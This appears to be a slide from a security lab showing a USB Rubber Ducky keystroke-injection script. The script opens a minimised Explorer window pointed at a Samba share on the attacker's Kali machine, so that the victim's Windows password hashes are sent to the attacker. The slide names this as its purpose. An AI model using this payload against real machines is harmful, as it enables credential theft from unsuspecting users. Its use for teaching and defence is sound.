

# Lab Cont.
Once samba server starts running, open any ducky editor and type the following program code written in bold letters:

DELAY 1000
GUI r
DELAY 100

STRING cmd /C @start /MIN explorer \\<attackerIPaddress / KalimachinesIPaddress>@

ENTER
Connects to samba server to pass grabbed hashes
Close command prompt
Open command prompt
Open file explorer in minimized state